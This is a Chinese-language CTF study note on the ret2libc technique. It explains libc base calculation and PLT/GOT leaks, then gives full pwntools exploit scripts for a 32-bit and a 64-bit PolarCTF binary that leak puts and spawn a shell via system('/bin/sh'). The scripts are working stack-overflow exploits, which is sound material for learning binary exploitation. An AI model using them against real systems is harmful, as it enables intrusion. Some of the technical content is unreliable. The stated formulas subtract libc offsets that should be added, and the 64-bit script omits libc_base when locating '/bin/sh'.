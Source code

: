 ```yaml
---
title: ret2libc
layout: doc
---
```

# {{$frontmatter.title}}
[[toc]]

## libc 相关知识
### 计算libc基地址
> 基地址：每次运行程序加载函数时，函数的基地址都会发生改变。这是一种地址随机化的保护机制，导致函数的真实地址每次运行都是不一样的。

> 这次运行程序的基地址 = 这次运行得到的某个函数func的真实地址  - 函数func的偏移地址 “这次！！”


libc_offset_puts 可以由pwntools的 libc.symbols['puts'] 获得 

函数的真实地址   =   libc基地址   +   偏移地址 

libc_base   = real_func - libc_offset_func

system_addr = libc_base - libc_offset_system

puts_addr   = libc_base - libc_offset_puts
### 获取plt表或者got表里的 偏移地址
```py
elf = ELF("file")
elf.plt['puts']
elf.got['puts']
```
### 通过puts打印出puts的真实地址
> 像puts(),write()这样的函数可以打印内容，我们可以直接利用这些打印函数，打印出某个函数的真实地址（即got表中存放的地址）
```py
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
ret_addr = 0xdeadbeef
# payload = b'A' * padding + p32(puts_plt) + p32(ret_addr) + p32(puts_got)
# 调用plt里的puts打印出got里的puts got里面是真实的地址 也就是 real_puts
```
> 64 位

### 通过puts计算出 libc_base
### 32位 传入参数 
填充字符 + 要跳转的函数 + 随便的函数地址 + 要跳转函数的参数

### 64位 传入参数


## 例题 32位 PolarCTFD&N Game

### 分析
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file Game
Game: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=473b0474ed2e85434ce06aa3fbde434bbdd236bf, not stripped

┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=Game
[*] '/home/kali/win/Downloads/Game'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

### ida
> main

![alt text](image-13.png)

> function

![alt text](image-15.png)

> star

![alt text](image-16.png)

最终发现是在star函数里出现了溢出
NX开启
没有getshell
没有system
那就是 ret2libc 了

### exp
思路 找到libc 基地址
找到 system和 /bin/sh字符串的地址构造 rop链

```py
from pwn import *
context(arch="i386",os="linux")
file = "./Game"
io = process(file)
elf = ELF(file)

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]

# libc_offset_puts = elf.libc.

star_addr = 0x080485F4

padding = 0x6C + 4

payload = b'a' * padding + p32(puts_plt) + p32(star_addr) + p32(puts_got) 

print(io.recvline())
io.sendline("yes")
print(io.recvline())
io.sendline("yes")
print(io.recvline())
io.sendline(payload)
io.recvline() # the print
puts_real = u32(io.recvline().strip())


libc = ELF('/lib/i386-linux-gnu/libc.so.6')
# libc 版本很重要 libcsearch 根据获得的puts_real的后三位寻找
# libc database search：https://libc.blukat.me
libc_base = puts_real - libc.symbols["puts"]
system_addr = libc_base + libc.symbols["system"]
sh_addr = libc_base + next(libc.search(b'/bin/sh'))

print(io.recvline()) # star

payload = b'a'*padding + p32(system_addr) +p32(0xdeadbeef) +p32(sh_addr)

io.sendline(payload)
io.interactive()
```


## 例题 64位 PloarCTFD&N sleep

### 分析
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file sleep
sleep: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b42baed839564bd0484ceecd264384595f89afb5, not stripped

┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=sleep
[*] '/home/kali/win/Downloads/sleep'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### ida
![alt text](image-17.png)

### exp
> pop rdi; ret
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ ROPgadget --binary sleep --only "pop|ret" | grep rdi
0x0000000000400783 : pop rdi ; ret
```
```py
from pwn import *
context(arch="amd64",os="linux")
file = "./sleep"
io = process(file)
elf = ELF(file)

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
fun_addr = 0x00000000004006BD
rdi_ret = 0x0000000000400783
padding = 0x70 + 8

print(io.recvline())
payload = b'a'*padding + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(fun_addr)
io.sendline(payload)

puts_real = u64(io.recvline().strip().ljust(8,b"\x00"))
# 64 位 u64 8个字节， 

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc_base = puts_real - libc.symbols["puts"]
system_addr = libc_base + libc.symbols["system"]
sh_addr = next(libc.search(b"/bin/sh"))

print(io.recvline())

payload = b'a'*padding + p64(rdi_ret) + p64(sh_addr) + p64(system_addr) + p64(0xdeadbeef)


io.sendline(payload)
io.interactive()



```